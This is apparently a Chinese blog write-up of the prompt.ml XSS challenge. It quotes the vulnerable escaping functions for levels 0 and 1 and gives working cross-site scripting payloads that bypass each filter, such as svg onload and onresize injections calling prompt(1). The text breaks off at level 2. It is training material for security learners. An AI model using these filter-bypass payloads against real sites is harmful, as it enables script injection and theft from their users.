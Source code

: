 title: xss无声挑战赛_writeup
date: 2015-07-02 13:48:17
tags:
- Blogs
- xss
categories:
- Blogs
---

[xss挑战平台地址](http://prompt.ml/)
[源码地址](https://github.com/cure53/xss-challenge-wiki/wiki/prompt.ml)

# 规则 #
1、成功执行prompt(1).
2、payload不需要用户交互（成功会显示you won）
3、payload必须对下述浏览器有效：
Chrome(最新版) - Firefox(最新版) - IE10 及以上版本(或者IE10兼容模式)
4、每个级别至少给出两种浏览器的答案
5、字符越少越好（作为一个渣渣只能把这一条扔到一边去...)


# writeup #
## level 0 ##
```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}       
```
看一看发现并没有过滤任何东西，简单粗暴的svg就好了
```
"><svg/onload="prompt(1)
```
还有一些黑科技，是从官方的writeup里看到的，ie10第一加载时会用到resize事件
```
"onresize=prompt(1)>
```
反正我电脑中的环境是执行不了的...

## level1 ##
```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}        
```
简单分析下，这条过滤比较常规，原则上就是如果>括号存在从</\开始的都替换为空，这样想
```
<script> </script>
```
都是不能用的，简单构造payload既可。
```
<svg/onload=prompt(1) 
```
这里是好像是因为会自动闭合标签，所以仍然执行
## level2 ##
```
```